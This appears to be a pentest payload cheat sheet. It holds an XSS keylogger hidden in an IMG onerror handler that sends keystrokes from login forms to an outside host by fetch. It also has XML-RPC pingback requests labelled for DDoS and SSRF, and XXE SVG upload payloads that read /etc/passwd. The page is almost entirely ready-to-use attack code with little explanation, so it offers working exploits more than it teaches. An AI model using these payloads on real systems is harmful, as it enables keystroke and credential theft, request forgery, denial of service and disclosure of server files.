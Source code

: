 
#### Cross-Site Scripting Keylogger

Easy JavaScript Keylogger with IMG Tags. Useful for XSS with Login Forms present.

```html
<img
  src="x"
  onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'
/>
```

#### XMLRPC.php

```xml
List all Methods
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>


~ DDoS ~

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>


~ SSRF ~

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

#### XXE File Upload SVG

```powershell
#https://scottc130.medium.com/understanding-xxe-vulnerabilities-7e389d3972c2

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

<?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>

```
